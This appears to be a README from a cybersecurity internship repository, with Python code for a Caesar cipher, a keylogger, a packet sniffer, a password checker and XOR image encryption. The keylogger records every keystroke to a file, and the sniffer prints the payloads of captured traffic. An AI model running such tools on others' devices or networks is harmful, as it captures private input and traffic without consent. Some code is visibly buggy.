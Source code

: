 # HITENDRA_PARGI_PRODIGYINFOTECH_REPO
This repository contains submissions for various cyber security tasks undertaken as part of my internship program. It includes projects, reports, and code related to:

* Caeser CIpher
* Keylogger
* Packet sniffer
* Password strength checker
* Pixel manipulation



1.Caeser Cipher:

def encrypt(text, shift):
    encrypted_text = ""
    for char in text:
        # Check if character is an uppercase letter
        if char.isupper():
            encrypted_text += chr((ord(char) + shift - 65) % 26 + 65)
        # Check if character is a lowercase letter
        elif char.islower():
            encrypted_text += chr((ord(char) + shift - 97) % 26 + 97)
        # If it's neither, keep the character as it is (spaces, punctuation, etc.)
        else:
            encrypted_text += char
    return encrypted_text

def decrypt(text, shift):
    decrypted_text = ""
    for char in text:
        # Check if character is an uppercase letter
        if char.isupper():
            decrypted_text += chr((ord(char) - shift - 65) % 26 + 65)
        # Check if character is a lowercase letter
        elif char.islower():
            decrypted_text += chr((ord(char) - shift - 97) % 26 + 97)
        # If it's neither, keep the character as it is (spaces, punctuation, etc.)
        else:
            decrypted_text += char
    return decrypted_text

# User input
text = input("Enter the text: ")
shift = int(input("Enter the shift value: "))

# Encrypt and display the result
encrypted_text = encrypt(text, shift)
print("Encrypted text:", encrypted_text)

# Decrypt and display the result
decrypted_text = decrypt(encrypted_text, shift)
print("Decrypted text:", decrypted_text)


2.keylogger:

from pynput.keyboard import Listener

def on_press(key):
    try:
        # Log the key and avoid issues with special characters
        with open("key_log.txt", "a") as log_file:
            log_file.write(str(key).replace("'", "") + " ")
    except Exception as e:
        print(f"Error logging key: {e}")

def on_release(key):
    # Stop logging if the Escape key is pressed
    if key == "Key.esc":
        return False

# Start the listener to capture keystrokes
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()

3.Packet Sniffer:

    from scapy.all import sniff, IP, TCP, UDP

def packet_callback(packet):

    if IP in packet:
        ip_src = packet[IP].src
        ip_dst = packet[IP].dst
        protocol = packet[IP].proto

        if TCP in packet:
            payload = packet[TCP].payload
        elif UDP in packet:
            payload = packet[UDP].payload
        else:
            payload = None

        print(f"Source IP: {ip_src}")
        print(f"Destination IP: {ip_dst}")
        print(f"Protocol: {protocol}")
        print(f"Payload: {payload}")
        print("-" * 50)
        
# Sniff packets
sniff(prn=packet_callback, store=0)

4.Password Strength Checker;

import re

def check_password_strength(password):
    # Initialize the score and feedback list
    score = 0
    feedback = []
    
    # Check length
    if len(password) >= 8:
        score += 1
    else:
        feedback.append("Password should be at least 8 characters long.")

    # Check for uppercase letters
    if re.search(r'[A-Z]', password):
        score += 1
    else:
        feedback.append("Password should contain at least one uppercase letter.")
    
    # Check for lowercase letters
    if re.search(r'[a-z]', password):
        score += 1
    else:
        feedback.append("Password should contain at least one lowercase letter.")

    # Check for numbers
    if re.search(r'[0-9]', password):
        score += 1
    else:
        feedback.append("Password should contain at least one number.")

    # Check for special characters
    if re.search(r'[@$!%*?&]', password):
        score += 1
    else:
        feedback.append("Password should contain at least one special character (e.g., @$!%*?&).")

    # Provide overall feedback
    if score == 5:
        feedback.append("Your password is strong.")
    elif 3 <= score < 5:
        feedback.append("Your password is moderate. Try adding more variety to make it stronger.")
    else:
        feedback.append("Your password is weak. Consider adding uppercase letters, numbers, and special characters.")
    
    # Display feedback
    print("\nPassword Strength Feedback:")
    for comment in feedback:
        print("-", comment)

# User input
password = input("Enter your password to assess its strength: ")
check_password_strength(password)

5.Pixel Manipulation:

from PIL import Image
import numpy as np

# Function to encrypt/decrypt the image
def image_encrypt_decrypt(image_path, key, output_path):

    # Open image
    img = Image.open(image_path)
    img_array = np.array(img)

    # Flatten the 3D image array into 1D for pixel-wise manipulation
    flat_img_array = img_array.flatten()

    # Perform XOR operation with the key
    encrypted_flat_img = np.bitwise_xor(flat_img_array, key)

    # Reshape back to the original image shape
    encrypted_img_array = encrypted_flat_img.reshape(img_array.shape)

    # Convert numpy array back to an image
    encrypted_img = Image.fromarray(encrypted_img_array.astype('uint8'))

    # Save the output image
    encrypted_img.save(output_path)
    print(f"Image saved at: {output_path}")

# Main function to encrypt/decrypt based on user choice
def main():

    # Ask user for the input image path, key, and operation
    image_path = input("Enter the path of the image: ")
    output_path = input("Enter the output path for the encrypted/decrypted image: ")
    key = int(input("Enter a numeric key (0-255): "))
    
    # Check if the key is in the valid range
    if not (0 <= key <= 255):
        print("Invalid key! Please enter a value between 0 and 255.")
        return
    
    # Ask the user if they want to encrypt or decrypt
    choice = input("Do you want to encrypt or decrypt the image? (e/d): ").lower()
    if choice == 'e':
        print("Encrypting the image...")
    elif choice == 'd':
        print("Decrypting the image...")
    else:
        print("Invalid choice. Exiting.")
        return
    
    # Perform the encryption or decryption
    image_encrypt_decrypt(image_path, key, output_path)
if _name_ == "_main_":
    main()
  
